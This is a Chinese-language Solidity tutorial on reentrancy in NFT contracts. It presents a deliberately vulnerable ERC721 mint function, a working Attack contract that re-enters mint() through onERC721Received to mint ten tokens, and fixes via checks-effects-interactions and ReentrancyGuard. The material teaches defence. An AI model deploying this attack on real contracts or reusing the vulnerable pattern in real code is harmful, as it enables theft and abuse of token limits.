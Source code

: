 # 16. NFT重入攻击

介绍NFT合约的重入攻击漏洞，并攻击一个有漏洞的NFT合约，铸造10个NFT。

## NFT重入风险

我们在[重入攻击](./01.md)中讲过，重入攻击是智能合约中最常见的一种攻击，攻击者通过合约漏洞（例如`fallback`函数）循环调用合约，将合约中资产转走或铸造大量代币。转账NFT时并不会触发合约的`fallback`或`receive`函数，为什么会有重入风险呢？

这是因为NFT标准（ERC721/ERC1155）为了防止用户误把资产转入黑洞而加入了安全转账：如果转入地址为合约，则会调用该地址相应的检查函数，确保它已准备好接收NFT资产。例如 ERC721 的 `safeTransferFrom()` 函数会调用目标地址的 `onERC721Received()` 函数，而黑客可以把恶意代码嵌入其中进行攻击。

我们总结了 ERC721 和 ERC1155 有潜在重入风险的函数：

![](../../pic/solidity-4-16-1.png)

## 漏洞例子

下面我们学习一个有重入漏洞的NFT合约例子。这是一个ERC721合约，每个地址可以免费铸造一个NFT，但是我们通过重入攻击可以一次铸造多个。

### 漏洞合约

`NFTReentrancy`合约继承了ERC721合约，它主要有 2 个状态变量，`totalSupply`记录NFT的总供给，`mintedAddress`记录已铸造过的地址，防止一个用户多次铸造。它主要有 2 个函数：

- 构造函数: 初始化 ERC721 NFT的名称和代号。
- `mint()`: 铸造函数，每个用户可以免费铸造1个NFT。**注意：这个函数有重入漏洞！**

```js
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // 铸造函数，每个用户只能铸造1个NFT
    // 有重入漏洞
    function mint() payable external {
        // 检查是否mint过
        require(mintedAddress[msg.sender] == false);
        // 增加total supply
        totalSupply++;
        // mint
        _safeMint(msg.sender, totalSupply);
        // 记录mint过的地址
        mintedAddress[msg.sender] = true;
    }
}
```

### 攻击合约

`NFTReentrancy`合约的重入攻击点在`mint()`函数会调用ERC721合约中的`_safeMint()`，从而调用转入地址的`_checkOnERC721Received()`函数。如果转入地址的`_checkOnERC721Received()`包含恶意代码，就能进行攻击。

`Attack`合约继承了IERC721Receiver合约，它有 1 个状态变量nft记录了有漏洞的NFT合约地址。它有 3 个函数:

- 构造函数: 初始化有漏洞的NFT合约地址。
- `attack()`: 攻击函数，调用NFT合约的`mint()`函数并发起攻击。
- `onERC721Received()`: 嵌入了恶意代码的ERC721回调函数，会重复调用`mint()`函数，并铸造10个NFT。

```js
contract Attack is IERC721Receiver{
    NFTReentrancy public nft; // 有漏洞的nft合约地址

    // 初始化NFT合约地址
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }
    
    // 攻击函数，发起攻击
    function attack() external {
        nft.mint();
    }

    // ERC721的回调函数，会重复调用mint函数，铸造10个
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 10){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

## 预防方法

主要有两种办法来预防重入攻击漏洞： 检查-影响-交互模式（checks-effect-interaction）和重入锁。

1. 检查-影响-交互模式：它强调编写函数时，要先检查状态变量是否符合要求，紧接着更新状态变量（例如余额），最后再和别的合约交互。我们可以用这个模式修复有漏洞的`mint()`函数:

```js
function mint() payable external {
    // 检查是否mint过
    require(mintedAddress[msg.sender] == false);
    // 增加total supply
    totalSupply++;
    // 记录mint过的地址
    mintedAddress[msg.sender] = true;
    // mint
    _safeMint(msg.sender, totalSupply);
}
```

2. 重入锁：它是一种防止重入函数的修饰器（modifier）。建议直接使用OpenZeppelin提供的[ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/ReentrancyGuard.sol)
